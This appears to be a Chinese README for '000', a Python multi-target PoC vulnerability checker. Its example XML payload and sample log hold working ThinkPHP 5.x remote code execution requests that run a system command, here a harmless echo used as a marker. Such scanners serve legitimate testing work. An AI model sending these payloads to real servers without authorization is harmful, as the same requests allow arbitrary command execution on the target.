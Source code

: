 # 000

第一个从零开发的作品，所以就叫000了，- -

## 简介

000是一个平平无奇的poc验证器，支持多线程、多目标、多poc和单个代理。

## 使用方法

> 1. 填目标ip

可以用`--url`或`-u`指定一个，或者每行一个填入某个文件中，之后用`--url-file`或者`-uf`填入它的路径。

如果`-u`和`-uf`同时存在，则他俩都会被加入扫描列表中

举例:

```
python3 000.py -u "http://127.0.0.1" -uf "urls.txt"
```

其中写到文件中的目标支持下面三种方式：

```
192.168.124.128:80
http://192.168.124.128:8080
http://192.168.124.128:8081/
```

> 2. 写入payload

Payload内容为xml，举例如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <payload>
        <!-- ThinkPHP5 5.0.23 Remote Code Execution Vulnerability -->
        <GET>/index.php?s=captcha</GET>
        <POST>_method=__construct&amp;filter[]=system&amp;method=get&amp;server[REQUEST_METHOD]=echo "123"|base64</POST>
        <Header>
            <User-Agent>Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36</User-Agent>
        </Header>
        <Vuln_Condition>MTIzCg==</Vuln_Condition>
    </payload>
</root>
```

`Vuln_Condition`是用来检测漏洞是否存在的字符串。若发送poc后响应包中含有该字符串，则判定该漏洞存在。

写完后需要将其放在一个文件夹中（默认`payload`文件夹，也可以用`--payload-folder`或者`-pf`指定一个你喜欢的文件夹），程序会自动导入该文件夹中的所有`.xml`文件

> 3. 获取扫描结果

程序运行时会在命令行里打印出哪个目标有洞。为了获取更详细的结果我们可以去`log`文件夹找到本次扫描对应的日志文件`xxx.log`，其中就会有详细的信息。

日志会是这样的：

```
[!] Only successful operations are recorded
===============2021-01-18 22:57:58===============
URL: http://192.168.124.128:80/index.php
|Header:
|	User-Agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
|GET:
|	/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "123"|base64
```

> 4. 其他

当然还有代理、线程数、timeout、是否允许重定向的设置。可以用`-h`获取它们的使用方法

# Q&A

> Q: 我需要安装什么包？
> A: requests是必须的，如果需要使用socks4/5代理的话还需要安装pysocks

 

